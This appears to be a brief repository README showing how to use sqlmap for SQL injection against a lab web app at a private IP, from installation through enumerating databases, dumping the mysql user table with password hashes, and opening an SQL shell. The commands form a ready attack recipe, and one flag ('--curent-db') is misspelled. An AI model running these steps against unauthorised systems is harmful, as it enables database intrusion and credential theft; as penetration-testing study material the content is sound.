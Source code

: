 # Example of using sqlmap

1. Install Kali Linux.

2. Install Sqlmap.

```
sudo apt update
sudo apt install sqlmap
```

3. Open browser, navigate to target site, press F12 then F5.

4. Fill in some forms.

5. In developer console, go to Network tab, filter only Ajax and Doc requests.

6. Test target URL from command line.

```
curl 'http://172.25.32.1:8080/words?search=ab'
```

7. Run Sqlmap against target.

```
sqlmap -u 'http://172.25.32.1:8080/words?search=ab'
```

8. If unsuccessful, run again increasing level and risk.

```
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' --level=3 --risk=3
```

9. After successful found of vulnerable parameter, list databases, tables and dump content.

```
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' --dbs --current-user --curent-db
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' -D mysql --tables
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' -D mysql -T user --dump
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' -D exemple --tables
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' -D mysql -T user --dump --passwords
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' --sql-shell
```

10. It is possible to use POST requests too. But it will polute the database and will be much slower.
